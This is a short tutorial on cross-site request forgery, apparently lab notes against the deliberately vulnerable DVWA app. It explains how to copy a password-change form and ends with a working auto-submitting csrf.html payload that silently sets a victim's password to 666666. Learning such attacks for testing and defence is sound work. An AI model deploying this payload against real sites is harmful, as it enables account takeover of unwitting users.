





# CSRF (Cross-site requests forgery)


<figure><figcaption></figcaption></figure>

* Requests are not validated at the server side
* server does not check if the user generated the request
* Requests can be forged and sent to users to make them do things that they don't want to do.

### Examples of CSRF

<figure><figcaption></figcaption></figure>

* We see that the Changing password form is not verifying if the user wants to do the following action.

<figure><figcaption></figcaption></figure>

* To start exploiting this we need to copy the **"new password form"** to paste it on our machine and start playing with it.

<figure><figcaption></figcaption></figure>

Above we can see that we are executing successfully **CSRF file**, now if we change the first **action parameter** to the URL of the web page where is this exact same form the data that the user inputs will be redirected to the site, and the password will be changed.&#x20;

<figure><figcaption></figcaption></figure>

### Example CSRF changing password through a link

<figure><figcaption></figcaption></figure>

* Here we can see that making some changes to the form and start an **Apache web server** to load the **csrf.html**, we can make a user to click on it and its password will be changed.

Code example: _**csrf.html**_

```
<form id=form1 action="http://192.168.1.1/dvwa/vulnerabilities/csrf/" method="GET"><br>

    <input type="hidden" autocomplete="off" name="password_new" value="666666">
    <input type="hidden" autocomplete="off" name="password_conf" value="666666">
    <input type="hidden" value="Change" name="Change">
    </form>

<script>document.getElementById('form1').submit();</script>
```
